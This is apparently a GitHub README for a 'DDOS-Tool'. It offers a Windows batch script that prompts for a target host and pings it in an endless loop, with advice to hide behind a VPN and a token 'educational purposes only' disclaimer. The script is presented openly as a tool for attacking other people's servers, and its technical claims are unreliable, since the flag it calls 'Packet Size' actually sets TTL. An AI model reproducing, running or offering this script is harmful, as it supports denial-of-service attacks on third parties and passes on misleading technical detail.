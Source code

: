 # DDOS-Tool
Anonymous DDOS-Tool





# About
  
 A script to Attack http(s) servers                                                
 
make sure u have a vpn installed                

how to install a vpn here:https://youtu.be/te8KE71ndso



# Screenshot
![Unbenannt](https://user-images.githubusercontent.com/97392345/153496914-2f9daae4-6c52-42c6-83b3-5df5f23ee946.PNG)


# Install
 1) Copy the folllowing code to youre Notepad:
 
@echo off

mode 67,16

title DDOS Attack by MR Jack

color 0a

cls

echo.

echo ÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄ

echo DDOS With Batchfile

echo ÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄ

echo.


set /p x=Server-Target:
echo.

echo ÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄ

ping %x%

echo ÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄ

@ping.exe 127.0.0.1 -n 5 -w 1000 > nul

goto Next 

:Next

echo.

echo.

echo.

set /p m=ip Host:

echo.

set /p n=Packet Size:

echo.

:DDOS

color 0c

echo Attacking Server %m%

ping %m% -i %n% -t >nul

goto DDOS

2) its a batch file so save it as whateveruwant.bat

4) enter the target server, the ip and how many packets u want to send to the Server

Enjoy


# Disclaimer  
im not responsible for any Damage caused with this Tool. use it only for educational purposes only.  

